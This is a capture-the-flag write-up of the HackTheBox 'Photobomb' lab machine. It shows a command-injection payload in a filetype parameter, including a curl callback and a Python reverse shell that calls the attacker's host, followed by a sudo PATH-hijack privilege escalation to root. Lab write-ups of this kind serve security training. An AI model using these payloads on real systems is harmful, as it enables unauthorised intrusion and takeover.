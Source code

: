 ```yaml
---
title: Hackthebox Photobomb Writeup
slug: hackthebox-photobomb-writeup
description: Hackthebox released a new machine called photobomb. On this machine, we got the web server where there is a JS file where we get the username and password to access the protected route, then abuse the filetype parameter to get a rev shell as photobomb and for Privilege Escalation using path traverse to get a root shell.
date: 2022-10-10
image: hackthebox-photobomb-writeup.webp
---
```



## Nmap

```js
❯ nmap -sC -sV -oA nmap/result 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-10 15:17 IST
Nmap scan report for 10.10.11.182
Host is up (0.085s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds
```

Nmap tell us there are two open ports `22 ssh` and `80 http` and HTTP port redirect us to `http://photobomb.htb/`

Let's quickly add this in our `/etc/hosts` file

```js
❯ cat /etc/hosts
127.0.0.1       localhost examzy.com
255.255.255.255 broadcasthost
::1             localhost
10.10.11.182    photobomb.htb
```

## Port-80

There is a simple `HTML` page with a link which going to `/printer` but it's asking for `password` that's we don't know

<FixTheImageURL src='web.png' slug='hackthebox-photobomb-writeup' />

<FixTheImageURL src='web1.png' slug='hackthebox-photobomb-writeup' />

After that, I view the source code of the website that's include the JS file called `photobomb.js`

<FixTheImageURL src='web2.png' slug='hackthebox-photobomb-writeup' />

Viewing that file, we got the `username` and `password`

<FixTheImageURL src='web3.png' slug='hackthebox-photobomb-writeup' />

Now let's try to log in with that `username` and `password`

```js
username = pH0t0
password = b0Mb!
```

After login, we see that there is an option to `download` photo to print

<FixTheImageURL src='web4.png' slug='hackthebox-photobomb-writeup' />

I capture that request in `burp` and try some `command injection` in all parameters

I try the payload in all `parameter` because I don't know in which parameter there will be `command injection`

But before that start your `python web server`

```js
> python3 -m http.server 80
```

<FixTheImageURL src='burp.png' slug='hackthebox-photobomb-writeup' />

This conforms that `photo` and `dimensions` parameter is not vulnerable

<FixTheImageURL src='burp1.png' slug='hackthebox-photobomb-writeup' />

## Command Injection

Let's try with `file` type parameter

```js
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;curl+10.10.XX.XX/dedsec&dimensions=3000x2000
```

<FixTheImageURL src='burp2.png' slug='hackthebox-photobomb-writeup' />

And we got the hit, it's mean we can get `rev shell` with that

<FixTheImageURL src='cmd.png' slug='hackthebox-photobomb-writeup' />

## RCE

I try `bash` payload, but that didn't work, so let's try `python` one

```js
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png%3bexport+RHOST%3d"10.10.XX.XX"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'&dimensions=3000x2000
```

Before that, start your `net cat` listener

```js
> nc -nvlp 9001
```

It's hanging that `good sign`, let's check the net cat

<FixTheImageURL src='burp3.png' slug='hackthebox-photobomb-writeup' />

Boom 🎉 we got the shell as `wizard` user

<FixTheImageURL src='cmd1.png' slug='hackthebox-photobomb-writeup' />

Got the `user.txt`

```js
wizard@photobomb:~/photobomb$ cd ~
cd ~
wizard@photobomb:~$ cat user.txt
cat user.txt
4af8270c5c6ddff5d13ccb3ee2d7193a
```

## Privilege Escalation

Before running `linpeas` let's try with `sudo -l`

And we can see there is `cleanup.sh` script which we can run with `sudo` privilege

```js
wizard@photobomb:~$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

And the content of the script is `straight forward`, it's just taking the log file and move their content into `photobomb.log.old` and then use truncate to clear `photobomb.log` to 0 byte

but if you see `clearly` it's not using `absolute path` like cd, find we can take advantage of that and `traverse the path` of that `binaries`

```js
wizard@photobomb:~$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Just add `/bin/bash` in cd file and give read, write, execute permission

I also create find file because if one failed we have `backup` to get shell as `root`

Now just run that file with `sudo` permission and set the `PATH` to `/temp` directory

```js
wizard@photobomb:~$ echo "/bin/bash" > /tmp/cd
echo "/bin/bash" > /tmp/cd
wizard@photobomb:~$ echo "/bin/bash" > /tmp/find
echo "/bin/bash" > /tmp/find
wizard@photobomb:~$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
cat /root/root.txt
0777d5279a599ddc20bb5edf5253d8b6
```
